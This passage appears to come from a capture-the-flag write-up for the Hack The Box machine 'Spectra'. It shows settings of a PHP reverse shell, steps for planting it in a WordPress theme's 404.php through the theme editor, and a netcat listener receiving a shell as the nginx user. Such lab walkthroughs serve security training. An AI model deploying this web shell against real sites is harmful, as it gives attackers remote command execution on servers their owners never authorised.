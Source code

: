 ``` bash 
  47   │ set_time_limit (0);
  48   │ $VERSION = "1.0";
  49   │ $ip = '127.0.0.1';  // CHANGE THIS
  50   │ $port = 1234;       // CHANGE THIS
  51   │ $chunk_size = 1400;
  52   │ $write_a = null;
  53   │ $error_a = null;
  54   │ $shell = 'uname -a; w; id; /bin/sh -i';
  55   │ $daemon = 0;
  56   │ $debug = 0;
```

Lets upload to the editor for `404.php`. after that we must go to the content where is the script we upload. if the editor give you an error you just need to change the theme to edit.

<img src="/assets/img/spectra/8.png">
<img src="/assets/img/spectra/9.png">

``` bash
http://spectra.htb/main/wp-content/themes/twentynineteen/404.php
```

After you upload the script you have to be listening in your local machine. And right after go to the directory where your script is.

``` bash 
sudo nc -nlvp 443
[sudo] password for oredreim:
listening on [any] 443 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.10.229] 41100
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 15:48:45 up  6:56,  0 users,  load average: 0.18, 0.06, 0.01
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$
```
